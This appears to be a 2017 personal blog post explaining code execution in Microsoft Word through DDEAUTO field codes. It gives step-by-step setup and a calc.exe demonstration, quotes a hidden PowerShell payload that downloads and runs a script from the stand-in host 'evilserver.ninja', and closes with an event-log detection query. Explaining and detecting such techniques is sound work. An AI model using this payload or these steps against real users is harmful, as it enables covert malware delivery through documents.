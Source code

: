 ```yaml
---
layout: post
title: "Code Execution in MSWord"
date: 2017-10-11
---
```

I read about a cool way to get code execution in MSWord from [SensePost](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ )'s Saif El-Sherei and later read about a way to detect it from [SecurityForRealPeople](https://www.securityforrealpeople.com/2017/10/exploiting-office-native-functionality.html#more)'s David Longenecker. 
Saif does a good job of explaining the steps in his post, but the basic setup is: 
1. <code> Insert </code> tab -> Quick Parts -> <code> Field </code>
2. choose <code> =(Formula) </code> and click ok
3. right-click on <code> !Unexpected End of Formula </code> and choose <code> Toggle Field Codes </code>
4. change the Field Code to contain:
    <p> <code> {DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"} </code>
5. save the document and then open it
6. you will get two prompts to click through and then calc will open

The possibilities here are endless. Saif's proof of concept video in the post uses powershell to download an empire launcher
   <p> <code> { DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
</code>
 <p>
I think depending on the access I had on the machine, I would change the syntax to be more stealthy, so the popup doesnt raise any red-flags with the user. 

Execution is lots of fun, but improving defenders and showing them how to find the cool techniques is really where the money is made. 

I drilled down on this particular code execution with the Powershell command below. It will differ with environment and context:
  <p>  <code> Get-EventLog -Log "OAlerts" -Newest 5 | where {$_.eventID -eq 300} | format-list -Property Message</code>
